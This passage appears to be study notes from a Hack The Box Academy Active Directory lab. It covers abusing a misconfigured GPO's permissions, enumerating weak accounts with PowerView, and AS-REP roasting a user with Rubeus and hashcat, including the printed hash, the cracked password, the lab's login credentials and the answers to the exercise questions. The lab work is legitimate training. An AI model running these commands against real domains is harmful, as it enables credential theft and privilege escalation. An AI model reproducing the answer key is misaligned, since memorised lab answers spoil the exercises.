ObjectDN              : CN={7CA9C789-14CE-46E3-A722-83F4097AF532},CN=Policies,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ObjectSID             :
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, Delete, GenericExecute, WriteDacl,
                        WriteOwner
BinaryLength          : 36
AceQualifier          : AccessAllowed
IsCallback            : False
OpaqueLength          : 0
AccessMask            : 983095
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-513
AceType               : AccessAllowed
AceFlags              : ObjectInherit, ContainerInherit
IsInherited           : False
InheritanceFlags      : ContainerInherit, ObjectInherit
PropagationFlags      : None
AuditFlags            : None
```

### Converting GPO GUID to Name
Here we can see that the Domain Users group has various permissions over a GPO, such as `WriteProperty` and `WriteDacl`, which we could leverage to give ourselves full control over the GPO and pull off any number of attacks that would be pushed down to any users and computers in OUs that the GPO is applied to. We can use the GPO GUID combined with `Get-GPO` to see the display name of the GPO.

```pwsh
PS C:\htb Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532

DisplayName      : Disconnect Idle RDP
DomainName       : INLANEFREIGHT.LOCAL
Owner            : INLANEFREIGHT\Domain Admins
Id               : 7ca9c789-14ce-46e3-a722-83f4097af532
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 10/28/2021 3:34:07 PM
ModificationTime : 4/5/2022 6:54:25 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```

Checking in BloodHound, we can see that the Domain Users group has several rights over the Disconnect Idle RDP GPO, which could be leveraged for full control of the object.



If we select the GPO in BloodHound and scroll down to `Affected Objects` on the `Node Info` tab, we can see that this GPO is applied to one OU, which contains four computer objects.



We could use a tool such as [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) to take advantage of this GPO misconfiguration by performing actions such as adding a user that we control to the local admins group on one of the affected hosts, creating an immediate scheduled task on one of the hosts to give us a reverse shell, or configure a malicious computer startup script to provide us with a reverse shell or similar. 

## Questions
RDP to **10.129.47.232** (ACADEMY-EA-MS01),**10.129.50.234** (ACADEMY-EA-ATTACK01), with user `htb-student` and password `Academy_student_AD!`
1. Find another user with the passwd_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y". **Answer: ygroce**
   - Check for passwd_notreqd setting using Get-DomainUser
        ```pwsh
        PS C:\Tools> Import-Module PowerView.ps1
        PS C:\Tools> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname

        samaccountname
        --------------
        guest
        mlowe
        ygroce
        ehamilton
        $725000-9jb50uejje9f
        nagiosagent
        ```
2. Find another user with the "Do not require Kerberos pre-authentication setting" enabled. Perform an ASREPRoasting attack against this user, crack the hash, and submit their cleartext password as your answer. **Answer: Welcome!00**
   - Find the user with the "Do not require Kerberos pre-authentication setting":
        ```pwsh
        PS C:\Tools> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl


        samaccountname     : ygroce
        userprincipalname  : ygroce@inlanefreight.local
        useraccountcontrol : PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH

        samaccountname     : mmorgan
        userprincipalname  : mmorgan@inlanefreight.local
        useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH 
        ```
   - Retrieve the AS-REP for offline cracking:
        ```pwsh
        PS C:\Tools> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat

        ______        _
        (_____ \      | |
        _____) )_   _| |__  _____ _   _  ___
        |  __  /| | | |  _ \| ___ | | | |/___)
        | |  \ \| |_| | |_) ) ____| |_| |___ |
        |_|   |_|____/|____/|_____)____/(___/

        v2.0.2


        [*] Action: AS-REP roasting

        [*] Target User            : mmorgan
        [*] Target Domain          : INLANEFREIGHT.LOCAL

        [*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountName=mmorgan))'
        [*] SamAccountName         : mmorgan
        [*] DistinguishedName      : CN=Matthew Morgan,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        [*] Using domain controller: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL (172.16.5.5)
        [*] Building AS-REQ (w/o preauth) for: 'INLANEFREIGHT.LOCAL\mmorgan'
        [+] AS-REQ w/o preauth successful!
        [*] AS-REP hash:

            $krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:DEF689B80048F3ACECCC0136296AC8DC$6D9FA388D2BD4064446BB526C2C54CEDC13C3BFEF588D23D3C1C2E239D3F15B6AECA5CA5A237B69F807F7D15AE6BC57FDE0D1DFA48073E55F3D5E70EE526E5802436F330A6337BCDE79D7BFE480382BCA4D4B4F81E0BAA6A3C200DAF702293FD55895A20A12C15FF0F070E70F54F0148B9EF9193070DCE26A5CCD3EE3054EB02C02184F039A79C153C2F245C6462E0A0CB6AB428914211EAC6AD755BC8A06DDCAF58090BC66845315AA159E07D7E5A61F30EC9138F26C14F63E2C04DF956D63AA0B4D45230E9FD773D0C72068E800C73503502EDD7DDF6DA7306B9238546438B33B6FA0CEF21B74F9146238766B1846E5468F9F5EB9271F7AE96
        ```
   - Crack it offline with hashcat mode 18200:
        ```sh
        $ hashcat -m 18200 as_rep /usr/share/wordlists/rockyou.txt 

        <SNIP>

        $krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:def689b80048f3aceccc0136296ac8dc$6d9fa388d2bd4064446bb526c2c54cedc13c3bfef588d23d3c1c2e239d3f15b6aeca5ca5a237b69f807f7d15ae6bc57fde0d1dfa48073e55f3d5e70ee526e5802436f330a6337bcde79d7bfe480382bca4d4b4f81e0baa6a3c200daf702293fd55895a20a12c15ff0f070e70f54f0148b9ef9193070dce26a5ccd3ee3054eb02c02184f039a79c153c2f245c6462e0a0cb6ab428914211eac6ad755bc8a06ddcaf58090bc66845315aa159e07d7e5a61f30ec9138f26c14f63e2c04df956d63aa0b4d45230e9fd773d0c72068e800c73503502edd7ddf6da7306b9238546438b33b6fa0cef21b74f9146238766b1846e5468f9f5eb9271f7ae96:Welcome!00

        <SNIP>
        ```